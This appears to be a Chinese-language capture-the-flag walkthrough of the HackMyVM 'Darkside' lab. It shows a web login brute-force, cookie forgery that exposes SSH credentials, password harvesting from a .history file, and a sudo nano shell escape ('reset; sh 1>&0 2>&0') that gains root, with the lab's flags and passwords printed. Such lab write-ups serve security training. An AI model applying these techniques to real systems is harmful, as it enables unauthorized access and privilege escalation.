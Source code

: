 # Darkside

2025.02.22 https://hackmyvm.eu/machines/machine.php?vm=Darkside

[video](https://www.bilibili.com/video/BV1cLPuebE2e/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 web 首页显示登陆页面，扫描发现 http://192.168.5.40/backup/vote.txt

```
rijaba: Yes
xerosec: Yes
sml: No
cromiphi: No
gatogamer: No
chema: Yes
talleyrand: No
d3b0o: Yes

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
```

得到用户名 kevin ， 上面的几个单词可能是密码，尝试爆破登陆但是不对，使用另外的一个小字典，结果爆破出了登陆密码 iloveyou 登陆到系统，显示一串字符 kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC 是先 base64 在 base58 编码的，将其解码后得到 sfqekmgncutjhbypvxda.onion

将该域名添加到 hosts 文件中当作域名，重新扫描，但是结果一样。

也可能是一个路径名，尝试访问 http://192.168.5.40/sfqekmgncutjhbypvxda.onion 查看源码发现：

```
var sideCookie = document.cookie.match(/(^| )side=([^;]+)/);
    if (sideCookie && sideCookie[2] === 'darkside') {
        window.location.href = 'hwvhysntovtanj.password';
    }
```

F12 修改 cookie side=darkside 刷新后 跳转到了 http://192.168.5.40/sfqekmgncutjhbypvxda.onion/hwvhysntovtanj.password 显示了 kevin 的登陆凭据：kevin:ILoveCalisthenics

使用此凭据进行 ssh 登陆，拿到 user flag：

```
kevin@darkside:~$ cat user.txt
UnbelievableHumble
```

查看到当前目录的 .history 文件，发现另外一个用户和密码: rijaba:ILoveJabita ，su 切换到 rijaba，sudo -l 显示 (root) NOPASSWD: /usr/bin/nano 直接可以拿到 root 权限：

```
sudo nano
^R^X
reset; sh 1>&0 2>&0

cd /root
cat root.txt

# cat root.txt
  ██████╗░░█████╗░██████╗░██╗░░██╗░██████╗██╗██████╗░███████╗
  ██╔══██╗██╔══██╗██╔══██╗██║░██╔╝██╔════╝██║██╔══██╗██╔════╝
  ██║░░██║███████║██████╔╝█████═╝░╚█████╗░██║██║░░██║█████╗░░
  ██║░░██║██╔══██║██╔══██╗██╔═██╗░░╚═══██╗██║██║░░██║██╔══╝░░
  ██████╔╝██║░░██║██║░░██║██║░╚██╗██████╔╝██║██████╔╝███████╗
  ╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚═════╝░╚═╝╚═════╝░╚══════╝


youcametothedarkside
```
